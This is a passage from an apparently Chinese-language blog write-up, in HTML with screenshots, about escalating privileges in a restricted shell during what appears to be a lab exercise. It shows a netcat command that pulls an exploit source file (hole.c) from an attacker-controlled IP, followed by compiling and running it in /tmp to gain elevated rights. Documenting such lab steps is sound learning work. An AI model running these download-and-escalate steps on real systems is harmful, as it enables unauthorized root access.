 </div><p>shell上输入下面命令，目的是连接攻击机ip和端口。获得了hole.c文件，在屏幕上输入了该文件。但没办法光在shell上输出没有用，不能写入到一个文件中去。。</p><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-ec9440fbfa8408bc.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-ec9440fbfa8408bc.PNG?imageMogr2/auto-orient/strip" data-image-slug="ec9440fbfa8408bc" data-width="379" data-height="128"><br><div class="image-caption"></div>
</div><p>如果输入nc，会显示没有找到该命令</p><p>输入 /usr/local/bin/nc 攻击IP 666 &gt; file   ，意思是将666端口的文件存为file，但是显示没有这样的文件或目录，为了弄清问题出在哪，输入touch file</p><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-2e00fc7729d055e9.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-2e00fc7729d055e9.PNG?imageMogr2/auto-orient/strip" data-image-slug="2e00fc7729d055e9" data-width="449" data-height="51"><br><div class="image-caption">图4<br>
</div>
</div><p>如果touch file，会显示不能新建file文件，请求拒绝。还是权限不够的问题吧</p><hr><p>尝试wget也是权限不够，nc也没用。</p><p>于是用 ls 查看权限，唉都是管理员权限的文件</p><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-06c74cc99f5263ac.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-06c74cc99f5263ac.PNG?imageMogr2/auto-orient/strip" data-image-slug="06c74cc99f5263ac" data-width="471" data-height="115"><br><div class="image-caption"></div>
</div><p>用pwd查看当前路径，cd ~</p><p>找到了一个有权限的 /tmp</p><p>于是执行图4，这次没有报错</p><p>gcc -o yes file</p><p>显示不知道file的类型</p><p>mv file file.c 更改文件名</p><p>gcc -o yes file.c</p><p>./yes</p><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-0694608ca60d4b67.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-0694608ca60d4b67.PNG?imageMogr2/auto-orient/strip" data-image-slug="0694608ca60d4b67" data-width="348" data-height="98"><br><div class="image-caption"></div>
</div><p>权限到手！- v -</p>
        </div>
      </div>
    </div>
  </body>
</html>

